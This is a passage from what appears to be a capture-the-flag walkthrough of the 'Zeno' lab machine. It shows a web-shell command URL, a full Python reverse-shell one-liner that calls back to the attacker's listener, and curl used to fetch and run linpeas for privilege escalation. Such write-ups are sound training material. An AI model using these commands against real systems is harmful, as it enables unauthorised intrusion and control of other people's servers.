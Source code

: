Now run the exploit and it will uplaod a reverse shell to the server. You can execute commands with the following format:

~~~
http://<MACHINE IP>:12340/rms/images/reverse-shell.php?cmd=<COMMAND>
~~~

## Reverse shell

Now that we can execute commands, we can run a reverse shell and get a shell on our machine. First start a listener on your machine.

Listener:
~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Zeno]
└─$ rlwrap nc -lvnp 4444                    
listening on [any] 4444 ...
~~~

Now brows the following url (don't forget to add your IP):
~~~
http://<MACHINE IP>:12340/rms/images/reverse-shell.php?cmd=python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
~~~

Now we have a shell as user `apache`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Zeno]
└─$ rlwrap nc -lvnp 4444                    
listening on [any] 4444 ...
connect to [10.9.1.114] from (UNKNOWN) [10.10.46.147] 36098
id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-4.2$
~~~

## apache -> edward

Now we need to escalate our privilege. I uploaded `linpeas` to the machine to find useful files for privesc. `wget` is not installed so I used `curl` to download it on the target machine:

First start a server using python where the linpeas is located:
~~~
┌──(user㉿Y0B01)-[/opt/linPEAS]
└─$ python3 -m http.server 80               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Then I used `curl` to download and write linpeas in a file on the target machine. Then I marked it to be executable and ran it:
~~~
sh-4.2$ cd /tmp
sh-4.2$ curl http://<YOUR IP>:80/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  465k  100  465k    0     0   221k      0  0:00:02  0:00:02 --:--:--  221k
sh-4.2$ chmod +x linpeas.sh
sh-4.2$ ./linpeas.sh
~~~
